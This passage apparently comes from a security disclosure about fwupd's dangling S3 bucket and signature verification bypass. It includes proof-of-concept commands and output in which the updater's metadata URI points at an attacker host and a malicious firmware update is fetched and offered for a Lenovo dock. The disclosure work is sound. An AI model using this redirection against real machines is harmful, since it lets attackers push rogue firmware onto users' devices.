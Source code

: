 It is also shown as available by `gnome-software`:

![Debian Stretch gnome-software showing a malicious firmware update](images/2020_fwupd_dangling_s3_bucket_and_signature_verification_bypass/debian_stretch_gnomesoftware_fwupd_malicious_update.png)


#### POC: Debian Sid (unstable)

`fwupd` v1.3.9 is installed. Note that by default it **does not** point at the
dangling S3 bucket.

```
$ fwupdmgr --version
client version: 1.3.9
compile-time dependency versions
        gusb:   0.3.4
        efivar: 37
daemon version: 1.3.9
```

When we do a `refresh` we can see our malicious firmware update showing as available:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/13-37-00/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz

$ fwupdmgr refresh --force
Fetching metadata http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/13-37-00/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz
Downloading…             [***************************************]
Fetching signature http://172.17.24.1:4444/poc/uuid/0922fea5-b1c1-5072-bc18-e178bbedce19/version/13-37-00/updateprotocol/com.synaptics.cxaudio/firmware.xml.gz.asc

Successfully downloaded new metadata: 1 local device supported

$ fwupdmgr get-updates
• SVGA II Adapter has no available firmware updates
VirtualBox
│
└─ThinkPad Thunderbolt 3 Dock USB Audio:
  │   Device ID:           54f0d9041b6c5438c7ff825f5139559c5ca1b222
  │   Summary:             CX20985 USB audio device
  │   Current version:     04-0E-83
  │   Bootloader Version:  02.00.00.00
  │   Vendor:              Lenovo (USB:0x17EF)
```